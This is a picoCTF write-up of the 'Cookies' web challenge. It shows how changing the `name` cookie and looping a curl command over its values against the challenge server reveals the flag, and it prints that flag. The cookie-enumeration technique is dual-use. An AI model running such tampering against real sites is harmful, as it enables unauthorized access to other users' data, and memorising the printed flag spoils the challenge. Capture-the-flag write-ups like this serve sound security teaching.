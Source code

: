 The challenge name strongly hints at something related to cookies.
Apparently there's only one cookie set with the key `name` with value `-1`
![Cookies initially](../assets/cookies/1.png)

We, change the value of the `name` cookie to some other value (say `0`), and we observe a change when refreshed (the form has the state of one which has already been submitted)
![Cookies after change](../assets/cookies/2.png)

We keep trying values from `0` to however many until we get any new interesting value, we write a small bash script which uses `curl` to automate this process for us.
```bash
achu@air ~ % i=0; while true; do curl -sS -L -b "name=$i" http://mercury.picoctf.net:6418/ | grep 'font-size:30px'; i=$((i + 1)); done
            <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love chocolate chip cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love oatmeal raisin cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love gingersnap cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love shortbread cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love peanut butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love whoopie pie cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love sugar cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love molasses cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love kiss cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love biscotti cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love butter cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love spritz cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love snowball cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love drop cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love thumbprint cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love pinwheel cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love wafer cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
            <p style="text-align:center; font-size:30px;"><b>I love macaroon cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love fortune cookies!</b></p>
            <p style="text-align:center; font-size:30px;"><b>I love crinkle cookies!</b></p>
^C                                                                                                                    achu@air ~ % 
```
`-sS` to suppress progress bar (`s`) but to propagate errors if they occur (`S`).
`-L` to follow HTTP redirects.
`-b` for setting cookie.
We pipe this to `grep` which searches for `font-size:30px` (because that's the only `p` container for that specific text size so we can narrow down to just one container with rudimentary tricks instead of proper HTML parsing).
